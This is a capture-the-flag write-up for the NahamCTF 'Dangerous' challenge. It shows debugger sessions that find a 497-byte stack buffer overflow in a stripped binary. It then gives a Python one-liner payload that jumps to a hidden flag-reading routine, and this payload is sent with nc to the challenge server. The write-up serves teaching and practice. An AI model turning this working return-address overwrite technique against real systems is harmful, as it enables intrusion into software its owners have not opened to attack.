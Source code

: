 ```yaml
---
title: "NahamCTF: Dangerous"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


*Hey! Listen!*

*Connect here:*
*nc jh2i.com 50011*

---

For this challenge, we're given a binary called "dangerous". It appears to be stripped, as analyzing it with radare2 doesn't give us many functions to call. 

Running the binary prompts us for our name, then tells us to "Take this":

```
What's your name?
username
It's dangerous to go alone! Take this, username

         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

```

To see if this is vulnerable to a buffer overflow, we'll open it up in gdb, and see if we can get it to segfault:

```
gdb ./dangerous

gdb-peda$ pattern create 700

r <<< $(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%B
A%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0A
sFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB
4ABJABfAB5ABKABgAB6')

...
RSP: 0x7fffffffe0d8 ("s6AsLAshAs7AsMA")
...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040130d in ?? ()

```

The interesting part of this is the RSP register, as it has part of our pattern in it, so we can use gdb's pattern search feature to find it:

```
pattern search s6AsLAshAs7AsMA
...
RBP+0 found at offset: 489
Registers point to pattern buffer:
[RSP] --> offset 497 - size ~15
...
```

If we swap the pattern out for A's and B's with python, we can very that we have RIP control:

```
gdb-peda$ r <<< $(python -c 'print "A"*497 + "B"*4')
...
RIP: 0x7f0a42424242
...
```

We now know that we have a buffer overflow vulnerability, and that we have control of the execution flow of the program.

We'll start our process of exploitation with radare2:

```
r2 -d dangerous
aaa
afl
```

We can see that we don't have any functions that we can call, so we'll step through the binary and see what it's doing.

```
[0x7ffff7fd5090]> dc
What's your name?
```

Here, we want to CTRL+C so that we can step into the syscall, without it continuing execution after we enter our input:

```
*What's your name?*
[0x7ffff7ed85ce]> ds
username
[0x7ffff7ed85ce]>
```

Now, we can enter visual mode and step through the binary by hitting s. After stepping three to four times, we can see an interesting portion of the assembly that appears to be opening flag.txt, reading it, and outputting it to the screen:

```
0x00401312      55             push rbp                                                                                                      
0x00401313      4889e5         mov rbp, rsp                                                                                                  
0x00401316      4881ec100200.  sub rsp, 0x210                                                                                                
0x0040131d      be00000000     mov esi, 0                                                                                                    
0x00401322      488d3d160f00.  lea rdi, qword str.._flag.txt    ; 0x40223f ; "./flag.txt"                                                    
0x00401329      b800000000     mov eax, 0                                                                                                    
0x0040132e      e8adfdffff     call sym.imp.open         ;[2]                                                                                
0x00401333      8945fc         mov dword [rbp - 4], eax                                                                                      
0x00401336      488d8df0fdff.  lea rcx, qword [rbp - 0x210]                                                                                  
0x0040133d      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401340      ba00020000     mov edx, 0x200            ; rdx                                                                               
0x00401345      4889ce         mov rsi, rcx                                                                                                  
0x00401348      89c7           mov edi, eax                                                                                                  
0x0040134a      e871fdffff     call sym.imp.read         ;[3]                                                                                
0x0040134f      8b45fc         mov eax, dword [rbp - 4]                                                                                      
0x00401352      89c7           mov edi, eax                                                                                                  
0x00401354      e857fdffff     call sym.imp.close        ;[4]                                                                                
0x00401359      488d85f0fdff.  lea rax, qword [rbp - 0x210]                                                                                  
0x00401360      4889c7         mov rdi, rax                                                                                                  
0x00401363      e828fdffff     call sym.imp.puts         ;[1]                                                                                
0x00401368      90             nop                                                                                                           
0x00401369      c9             leave                                                                                                         
0x0040136a      c3             ret
```

Since there isn't a function that directly calls this, we'll have to jump directly to this memory address. Before we continue, we'll want to create a fake flag in the same directory as the binary, named flag.txt. For this challenge, we'll put "flag{hellothere}" in the flag.txt file.

Now that we have an address to jump to, and we know where the buffer overflows, we can build our exploit:

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | ./dangerous

What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{hellothere}
e! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Nice, we know that it works now, so we'll aim it at the server, and fire it!

```
python -c 'print "A"*497 + "\x12\x13\x40\x00\x00\x00\x00\x00"' | nc jh2i.com 50011
What's your name?
It's dangerous to go alone! Take this, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
         █   
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
        ███  
      ███████
      █ ███ █
        ███  
        ███  
        ███  

flag{legend_of_zelda_overflow_of_time}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There's our flag!

**flag{legend_of_zelda_overflow_of_time}**

